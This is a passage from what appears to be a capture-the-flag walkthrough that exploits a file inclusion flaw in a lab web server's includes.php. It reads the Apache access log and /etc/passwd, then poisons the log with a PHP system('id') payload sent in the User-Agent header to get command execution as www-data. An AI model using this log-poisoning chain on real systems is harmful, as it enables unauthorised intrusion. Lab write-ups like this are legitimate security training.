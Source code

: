 **Key points:** 
- `john` → `/home/john`

**Curl `/var/log/apache2/access.log`**:

```bash
❯ curl "http://192.168.0.101/includes.php?display_page=/var/log/apache2/access.log"

192.168.0.102 - - [25/Feb/2025:10:16:35 -0500] "GET / HTTP/1.1" 200 229 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0" 192.168.0.102 - - [25/Feb/2025:10:16:36 -0500] "GET /favicon.ico HTTP/1.1" 404 192 "http://192.168.0.101/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0" 192.168.0.102 - - [25/Feb/2025:10:17:10 -0500] "GET /robots.txt HTTP/1.1" 404 192 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0" 192.168.0.104 - - [25/Feb/2025:10:18:07 -0500] "GET / HTTP/1.1" 200 173 "-" "gobuster/3.6" 192.168.0.104 - - [25/Feb/2025:10:18:07 -0500] "GET /b459b4d4-78a8-4124-9991-0b36071aee96 HTTP/1.1" 404 192 "-" "gobuster/3.6" 192.168.0.104 - - [25/Feb/2025:10:18:07 -0500] "GET /.cache HTTP/1.1" 404 192 "-" "gobuster/3.6" 192.168.0.104 - - [25/Feb/2025:10:18:07 -0500] "GET /.cvsignore HTTP/1.1" 404 192 "-" "gobuster/3.6" 192.168.0.104 - - [25/Feb/2025:10:18:07 -0500] "GET /.git HTTP/1.1" 404 192 "-" "gobuster/3.6" 192.168.0.104 - - [25/Feb/2025:10:18:07 -0500] "GET /.git-rewrite HTTP/1.1" 404 192 "-" "gobuster/3.6" 192.168.0.104 - - [25/Feb/2025:10:18:07 -0500] "GET /.forward HTTP/1.1" 404 192 "-" "gobuster/3.6" 192.168.0.104 - - [25/Feb/2025:10:18:07 -0500] "GET /.git/config HTTP/1.1" 404 192 "-" "gobuster/3.6" 192.168.0.104 - - [25/Feb/2025:10:18:07 -0500] "GET /.git/index HTTP/1.1" 404 192 "-" "gobuster/3.6" 192.168.0.104 - - [25/Feb/2025:10:18:07 -0500] "GET /.git/logs/ HTTP/1.1" 404 192 "-" "gobuster/3.6" 192.168.0.104 - - [25/Feb/2025:10:18:07 -0500] "GET /.git_release HTTP/1.1" 404 192 "-" "gobuster/3.6" 192.168.0.104 - - [25/Feb/2025:10:18:07 -0500] "GET /.gitattributes HTTP/1.1" 404 192 "-" "gobuster/3.6" 192.168.0.104 - - [25/Feb/2025:10:18:07 -0500] "GET /.gitconfig HTTP/1.1" 404 192 "-" "gobuster/3.6" 192.168.0.104 - - [25/Feb/2025:10:18:07 -0500] "GET /.gitignore HTTP/1.1" 404 192 "-" "gobuster/3.6" 192.168.0.104 - - [25/Feb/2025:10:18:07 -0500] "GET /.gitk HTTP/1.1" 404 192 "-" "gobuster/3.6" 192.168.0.104 - - [25/Feb/2025:10:18:07 -0500] "GET /.gitkeep HTTP/1.1" 404 192 "-" "gobuster/3.6" 192.168.0.104 - - [25/Feb/2025:10:18:07 -0500] "GET /.gitmodules HTTP/1.1" 404 192 "-" "gobuster/3.6" 192.168.0.104 - - [25/Feb/2025:10:18:07 -0500] "GET /.gitreview HTTP/1.1" 404 192 "-" "gobuster/3.6" 192.168.0.104 - - [25/Feb/2025:10:18:07 -0500] "GET /.history HTTP/1.1" 404 192 "-" "gobuster/3.6" 192.168.0.104 - - [25/Feb/2025:10:18:07 -0500] "GET /.hta HTTP/1.1" 403 192 "-" "gobuster/3.6" 192.168.0.104 - - [25/Feb/2025:10:18:07 -0500] "GET /.htaccess HTTP/1.1" 403 192 "-" "gobuster/3.6" 192.168.0.104 - - [25/Feb/2025:10:18:07 -0500] "GET /.git/HEAD HTTP/1.1" 404 192 "-" "gobuster/3.6" 192.168.0.104 - - [25/Feb/2025:10:18:07 -0500] "GET /.listing HTTP/1.1" 404 192 "-" "gobuster/3.6" 192.168.0.104 - - [25/Feb/2025:10:18:07 -0500] "GET /.listings HTTP/1.1" 404 192 "-" "gobuster/3.6"
```

This is only a pice.

**I tested if it allows me to enter PHP code**

```bash
❯ curl -A "<?php system('id'); ?>" http://192.168.0.101

<h1>HELLO WORLD!</h1>
```

```bash
❯ curl "http://192.168.0.101/includes.php?display_page=/var/log/apache2/access.log" -s | tail
"
192.168.0.104 - - [25/Feb/2025:14:25:55 -0500] "GET /includes.php?display_page=/var/log/apache2/access.log HTTP/1.1" 200 60663236 "-" "curl/8.12.1-DEV"
192.168.0.104 - - [25/Feb/2025:14:26:45 -0500] "GET /includes.php?display_page=/var/log/apache2/access.log HTTP/1.1" 200 60663388 "-" "curl/8.12.1-DEV"
192.168.0.104 - - [25/Feb/2025:14:27:24 -0500] "GET / HTTP/1.1" 200 173 "-" "user.txt
"
192.168.0.104 - - [25/Feb/2025:14:27:28 -0500] "GET /includes.php?display_page=/var/log/apache2/access.log HTTP/1.1" 200 60663628 "-" "curl/8.12.1-DEV"
192.168.0.104 - - [25/Feb/2025:14:32:25 -0500] "GET /includes.php?display_page=/etc/passwd HTTP/1.1" 200 1633 "-" "curl/8.12.1-DEV"
192.168.0.104 - - [25/Feb/2025:14:37:00 -0500] "GET /includes.php?display_page=/var/log/apache2/access.log HTTP/1.1" 200 60663912 "-" "curl/8.12.1-DEV"
192.168.0.104 - - [25/Feb/2025:14:41:54 -0500] "GET / HTTP/1.1" 200 173 "-" "uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
